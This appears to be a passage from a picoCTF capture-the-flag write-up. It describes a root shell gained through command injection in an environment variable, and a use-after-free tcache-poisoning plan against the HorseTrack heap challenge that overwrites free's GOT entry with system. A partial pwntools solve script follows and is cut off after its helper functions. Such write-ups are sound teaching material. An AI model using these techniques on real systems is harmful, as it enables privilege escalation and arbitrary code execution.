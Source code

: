 Running it asks to set the SECRET_DIR environment variable
![image](https://user-images.githubusercontent.com/113513376/228703354-8e7bfe63-8cef-470f-9380-ba86a0ab0a4c.png)

So i set it to /root
![image](https://user-images.githubusercontent.com/113513376/228703452-85bb23a2-602f-4fa4-b551-5b33cf62968c.png)

And after running it, it shows the list of files in root directory

So its likely doing ls then getenv(SECRET_DIR) 

I searched for command injection in environment variable and got [Resource](https://int0x33.medium.com/day-29-set-user-id-environment-variable-injection-path-user-for-linux-priv-esc-ea6c0adc19b8)

Trying it works and we get shell as root
![image](https://user-images.githubusercontent.com/113513376/228703774-247af47a-48e4-43ed-b87c-9aeeff9330a3.png)

<h3> HorseTrack </h3>
![image](https://user-images.githubusercontent.com/113513376/228821375-eda5f850-5ea6-4a90-86dd-426bc072e4f4.png)

After downloading the binary i ran it to get an idea of what it does
![image](https://user-images.githubusercontent.com/113513376/228821545-9ecdfebc-fdee-44b3-be04-ae9ee50aa3ed.png)

From the challenge description we can tell its a heap sort of challenge and its likely UAF since i noticed most pwn heap chall pico ctf brings are based on UAF

After playing with the binary and understanding it, I concluded that for us to exploit this binary we're going to advantage of tcache poisoning with a UAF vulnerability

Here's my exploit mechanism

```
1. add_horse() .. allocates buffer
2. remove_horse() .. frees buffer
3. move_horse() ...
4. And finally tcache poisoning attack to have malloc() return an arbritary pointer to a target memory location. Overwritting the free GOT entry with system with a horse named /bin/sh
```

Here's my solve script

```
#!/usr/bin/env python3

from pwn import *

LOCAL = True  # Set to False to connect to the remote server

if LOCAL:
    r = process('./vuln')
else:
    r = remote('saturn.picoctf.net', 63578)

def edit_horse(idx, data, spot):
    r.sendlineafter(b'Choice: ', b'0')
    r.sendlineafter(b'Stable index # (0-17)? ', str(idx).encode())
    r.sendlineafter(b'Enter a string of 16 characters: ', data)
    r.sendlineafter(b'New spot? ', str(spot).encode())

def add_horse(idx, size, data):
    r.sendlineafter(b'Choice: ', b'1')
    r.sendlineafter(b'Stable index # (0-17)? ', str(idx).encode())
    r.sendlineafter(b'Horse name length (16-256)? ', str(size).encode())
    r.sendlineafter(b'characters: ', data)

def free_horse(idx):
    r.sendlineafter(b'Choice: ', b'2')
    r.sendlineafter(b'Stable index # (0-17)? ', str(idx).encode())
```